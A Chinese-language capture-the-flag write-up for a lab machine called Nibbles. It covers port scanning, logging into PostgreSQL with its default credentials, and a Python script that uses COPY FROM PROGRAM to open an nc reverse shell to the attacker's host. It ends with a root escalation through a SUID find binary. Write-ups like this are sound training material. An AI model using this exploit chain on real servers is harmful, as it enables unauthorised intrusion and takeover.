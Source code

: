 # 端口枚举

```bash
$ sudo nmap --top-ports=50 -Pn 192.168.201.47            
[sudo] password for aaron: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-10 09:38 +0330
Nmap scan report for 192.168.201.47
Host is up (0.24s latency).
Not shown: 45 filtered tcp ports (no-response)
PORT    STATE  SERVICE
21/tcp  open   ftp
22/tcp  open   ssh
80/tcp  open   http
139/tcp closed netbios-ssn
445/tcp closed microsoft-ds


[~/Desktop/pg/Nibbles/nmapAutomator]
└─$ ./nmapAutomator.sh -H 192.168.201.47 -t full

Running a full scan on 192.168.201.47

Host is likely running Unknown OS!

---------------------Starting Full Scan------------------------                                                                                       
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
5437/tcp open  pmip6-data

Making a script scan on all ports
                                                                                                                                                                                                                                

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
|_http-title: Enter a title, displayed at the top of the window.
|_http-server-header: Apache/2.4.38 (Debian)
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Not valid before: 2020-04-27T15:41:47
|_Not valid after:  2030-04-25T15:41:47
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

使用`nmapAutomator` 之后可以看到端口5437是 `postgresql`.

然后尝试使用默认的用户名和密码去登录 `postgresql`.

<img src="../Images/image-20230810144320408.png" alt="image-20230810144320408" style="zoom:80%;" />

默认用户名和密码能够登录`postgresql`, 现在查看一下用户的权限

<img src="../Images/image-20230810144340226.png" alt="image-20230810144340226" style="zoom:80%;" />

从`roles`可以看到我是超级用户, 这代表着我可以去创建角色等一系列admin的操作, 所以接下来我要尝试去使用pg来反弹shell.

使用以下脚本来获取RCE, 修改`RHOST`, 脚本来源: https://github.com/squid22/PostgreSQL_RCE

```python
#!/usr/bin/env python3
import psycopg2


RHOST = '192.168.201.47'
RPORT = 5437
LHOST = '192.168.45.204'
LPORT = 80
USER = 'postgres'
PASSWD = 'postgres'

with psycopg2.connect(host=RHOST, port=RPORT, user=USER, password=PASSWD) as conn:
    try:
        cur = conn.cursor()
        print("[!] Connected to the PostgreSQL database")
        rev_shell = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {LHOST} {LPORT} >/tmp/f"
        print(f"[*] Executing the payload. Please check if you got a reverse shell!\n")
        cur.execute('DROP TABLE IF EXISTS cmd_exec')
        cur.execute('CREATE TABLE cmd_exec(cmd_output text)')
        cur.execute('COPY cmd_exec FROM PROGRAM \'' + rev_shell  + '\'')
        cur.execute('SELEC * from cmd_exec')
        v = cur.fetchone()
        #print(v)
        cur.close()

    except:
        print(f"[!] Something went wrong")

```

然后执行

<img src="../Images/image-20230810152538054.png" alt="image-20230810152538054" style="zoom:80%;" />

获得反弹shell

# 提权

# 信息收集

```bash
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                               
strings Not Found                                                                                                                              
strace Not Found                                                                                                                               
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device                                                                      
-rwsr-xr-x 1 root root 427K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 50K Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                                                                        
-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 35K Jan  7  2019 /usr/bin/fusermount
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 309K Feb 16  2019 /usr/bin/find
-rwsr-xr-x 1 root root 154K Feb  2  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)

```

<img src="../Images/image-20230810152816262.png" alt="image-20230810152816262" style="zoom:80%;" />

在linpeas中可以看到高亮的find是SUID, 通过GTFobins去查看如何使用find来获取root权限.

https://gtfobins.github.io/gtfobins/find/

```bash
$ /usr/bin/find . -exec /bin/sh -p \; -quit
id
uid=106(postgres) gid=113(postgres) euid=0(root) groups=113(postgres),112(ssl-cert)
whoami
root
```

最终提权成功
